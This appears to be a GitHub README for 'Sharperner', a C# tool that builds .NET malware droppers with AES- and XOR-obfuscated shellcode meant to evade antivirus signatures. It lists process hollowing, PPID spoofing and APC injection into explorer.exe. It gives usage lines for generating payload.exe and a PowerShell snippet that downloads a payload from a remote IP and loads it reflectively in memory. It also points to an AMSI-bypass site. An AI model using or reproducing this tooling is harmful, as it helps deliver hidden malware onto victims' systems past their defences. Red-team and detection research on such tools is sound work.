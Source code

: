 # Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

![](./src/images/scan.PNG)

## Features
### PE binary
* Process Hollowing
* PPID Spoofing
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code :)

### .NET binary
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Random function names
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code :)

## Usage
```
/file       B64,hex,raw shellcode
/type       cs,cpp
/out        Output file Location (Optional)

Example:
Sharperner.exe /file:file.txt /type:cpp
Sharperner.exe /file:file.txt /out:payload.exe
```

## Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```